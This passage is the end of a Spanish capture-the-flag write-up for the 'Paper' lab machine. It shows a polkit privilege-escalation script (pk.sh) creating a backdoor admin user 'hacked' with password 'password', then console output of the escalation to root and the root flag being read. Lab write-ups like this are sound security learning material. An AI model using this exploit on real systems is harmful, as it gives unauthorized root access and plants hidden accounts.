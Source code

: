 Pero aun así, no tenemos permisos para ejecutar sudo.
De paso aprovecho para ver si en el sistema existe el SUID **`pkexec`** con el que podríamos escalar privilegios fácilmente, y efectivamente existe.
Pero nosotros somos de la vieja escuela y aquí hacemos las cosas bien, ¿estamos?. Sigamos...

Vemos que exise un archivo **`pk.sh`** y si lo analizamos podemos ver que crea un usuario **`hacked`** con contraseña **`password`** y permisos de administrador.
También comprueba la versión de **`polkit`** y al final del script nos indica que podemos ejecutar **`su - hacked`** y **`sudo su`** para ganar acceso como root.

Lo ejecutamos y esperamos...si tarda mucho y no hace nada, lo ejecutamos de nuevo. En mi caso, por alguna extraña razón tuve que ejecutarlo tres veces.

```console
[dwight@paper ~]$ ./pk.sh
[*] Vulnerable version of polkit found
[*] Determining dbus-send timing
[*] Attempting to create account
[*] New user hacked created with uid of 1005
[*] Adding password to /etc/shadow and enabling user
[*] Exploit complete!

[*] Run 'su - hacked', followed by 'sudo su' to gain root access
[dwight@paper ~]$ su - hacked
Password: password
[hacked@paper ~]$ sudo su
[sudo] password for hacked: password
[root@paper hacked]# whoami
root
[root@paper hacked]# cd /root
[root@paper ~]# ls
anaconda-ks.cfg  initial-setup-ks.cfg  root.txt
[root@paper ~]# cat root.txt
486726908b376d042dfb225f0ed02b6c
[root@paper ~]# 
```

Y esta sería la escalada de privilegios tal y como estaba contemplada por el creador de la máquina, por lo tanto la damos por finalizada.

De esta máquina he aprendido lo importante que es fijarse en los detalles, y no lo digo por que haya cosas que sean difíciles,
sino porque por culpa mía y por no fijarme bien, estuve un rato tratando de averiguar cómo llevar a cabo la intrusión,
simplemente por no ver que en el output de whatweb me estaban dando el auténtico virtualhost de la máquina.
Estaba obcecado en poner *paper.htb*, tal vez por costumbre, y claro en este virtualhost no encontraba más que la plantilla html por defecto,
con la cuál no podía hacer nada obviamente. Las malas costumbres pueden hacernos perder un tiempo valioso...

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠